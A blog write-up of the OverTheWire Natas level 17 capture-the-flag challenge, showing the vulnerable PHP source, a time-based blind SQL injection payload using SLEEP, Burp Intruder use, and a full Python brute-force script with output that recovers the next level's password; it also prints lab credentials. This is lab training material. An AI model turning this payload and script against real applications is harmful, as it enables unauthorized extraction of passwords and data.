 ```yaml
---
layout: post
title: "Natas Level17 - Level18"
date: 2015-10-02 21:06:52
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 17 takes us back to Natas 15:

![Natas 17 search](/assets/img/screenshots/Natas_level17-1.png)

Lets look at the source to see if we can find whats changed:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

Hmm... looks like they completely removed the response. I submitted the user name "natas18" (since I assume it will exist) and "asfdgshnt" since I do not think it will exist. I captured both requests and sent it to the Burp Comparer to see if we can find any diffrences:

![Natas 17 burp comparer](/assets/img/screenshots/Natas_level17-2.png)

As expected, the result is exactly the same. Since this is a blind sql injection with absolutly no output, the only thing I can think of is a time base attack. If a reponse takes longer when the password exists, we should be able to brute force it. With no output, this might be difficult. So I rebuild a database on my local machine with the following data:

    +----------+----------------------------------+
    | username | password                         |
    +----------+----------------------------------+
    | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
    +----------+----------------------------------+

Next I try the following query:

    Select * from users where username = "natas16"  AND LEFT(password, 1) COLLATE latin1_general_cs = "W" AND (SELECT SLEEP(5)) AND "1"="1";


And I get the following output:

![Natas 17 db output](/assets/img/screenshots/Natas_level17-3.png)

Here is the string that I will need to submit:

    natas18"  AND LEFT(password, 1) COLLATE latin1_general_cs = "a" AND  (SELECT SLEEP(20)) AND "1"="1

I capture a request in Burp and send it to the intruder but since this is a time base attack, I need to change the Number of threads to 1:

![Natas 17 Burp threads](/assets/img/screenshots/Natas_level17-4.png)

After running it I look at the response time and find the first letter of the password is x:

![Natas 17 Burp result](/assets/img/screenshots/Natas_level17-1.png)

Now lets script it!

    import urllib
    import urllib2
    import time

    url = 'http://natas17.natas.labs.overthewire.org/index.php'
    authorization = 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas18"  AND LEFT(password, %d) COLLATE latin1_general_cs = "%s" AND  (SELECT SLEEP(10)) AND "1"="1' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Authorization', authorization)
            start = time.time()
            response = urllib2.urlopen(req)
            the_page = response.read()
            end = time.time()
            #print the_page
            duration = end-start
            if duration > 10:
                password+=Chars[j]
                print password
                break


The first time I run it I get a weird issue:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ....
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDa
    30 out of 32
    31 out of 32
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDaE

But when I ran it again and I got:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ...
    27 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCs
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
    30 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
    31 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

